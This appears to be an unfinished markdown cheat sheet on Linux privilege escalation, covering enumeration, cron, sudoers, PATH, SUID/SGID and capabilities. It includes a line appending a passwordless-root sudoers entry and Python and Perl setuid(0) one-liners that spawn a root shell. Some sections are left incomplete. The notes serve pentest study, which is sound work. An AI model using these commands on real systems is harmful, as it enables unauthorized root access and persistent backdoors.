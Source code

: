 ### System Information

##### Distribution 

- cat [/etc/issue](https://man7.org/linux/man-pages/man5/issue.5.html): text file which contains a message or system identification to be printed before the login prompt.
- cat /etc/*-release
- cat [/etc/lsb-release](https://linux.die.net/man/1/lsb_release): contain the LSB_VERSION field. The value of the field should be a colon separated list of supported module versions indicating the LSB specification modules to which the installation is compliant. 
- cat /etc/redhat-release
- [lsb_release](https://linux.die.net/man/1/lsb_release) -all: Prints certain LSB (Linux Standard Base) and Distribution information

##### Kernel Version

- at [/proc/version](https://docs.fedoraproject.org/en-US/Fedora/14/html/Deployment_Guide/s2-proc-version.html): This file specifies the version of the Linux kernel, the version of gcc used to compile the kernel, and the time of kernel compilation.
- [uname -a](https://linux.die.net/man/1/uname): Print all system information
- [uname -mrs](https://linux.die.net/man/1/uname): Print the machine hardware name *m*, kernel release *r* and the kernel-name *s*
- rpm -q kernel: Print the kernel version using the RPM Package Manager
- [dmesg](https://man7.org/linux/man-pages/man1/dmesg.1.html) | grep Linux: Print or control the kernel ring buffer
- ls /boot | grep vmlinuz-: Grep the name the Linux kernel executable within the boot partition

### Cron Jobs

Since Cron runs as root when executing /etc/crontab, any commands or scripts that are called by the crontab will also run as root. 

```bash
crontab -e # Edit the current crontab using the  editor specified by the VISUAL or EDITOR environment variables.
crontab -l # Display all user's jobs in cron / crontab
```

- /etc/crontab: System crontab. Cron will run as the **root** user when executing scripts and commands in this file.
- /etc/anacrontab: Cron will run as the **root** user when executing scripts and commands in this file.
*Nowadays the file is empty by default.
Originally it was usually used to run daily, weekly, monthly jobs. By default these jobs are now run through anacron which reads /etc/anacrontab configuration file.*
- /var/spool/cron: *Directory that contains user crontables created by the crontab command.*
- /etc/cron.d: *Directory that contains system cronjobs stored for different users.*

Cron examines all stored crontabs and checks each job to see if it needs to be run in the current minute.

1. Search if there are script executed that you can write
2. Search for wildcard injection vulnerability
   
   **Chown** has a *--reference=some-reference-file* flag, which specifies that the owner of the file should be the same as the owner of the reference file. An example should help:



##### Sudoers

```bash
echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

##### $PATH
```bash
echo $PATH
```
If you notice '.' in environment PATH variable it means that the logged user can execute binaries/scripts from the current directory and it can be an excellent technique for an attacker to escalate root privilege.

```bash
find / -perm -u=s -type f # Search for program with the SUID
find / -perm -g=s -type f # Search for program with the SGID
```



###### *If you don't know, now you know: [PATH]()*

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.
When the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user. 

###### *If you don't know, now you know: [SUID & SGID]()*

- **SUID** (**S**et owner **U**ser **ID** up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs
- **SGID** (**S**et owner **G**roup **ID** up on execution) same as SUID for groups.

### Linux Processes
1. pspy

[pspy](https://github.com/DominicBreuker/pspy#how-it-works) is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. 
It heavily uses the [inotify API](https://man7.org/linux/man-pages/man7/inotify.7.html) provides a mechanism for monitoring filesystem events.
Inotify can be used to monitor individual files, or to monitor directories.


### Linux Capabilities 
1. getcap

The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:
- ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
- ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'


###### *If you don't know, now you know: [Capabilities](https://linux.die.net/man/7/capabilities)*

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:
- **CAP_CHOWN**: Make arbitrary changes to file UIDs and GIDs (SUIDs and SGIDs as well) 
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs


#### Sources:

https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

##### Temp:

ip addr

-> docker0


Sources:

https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/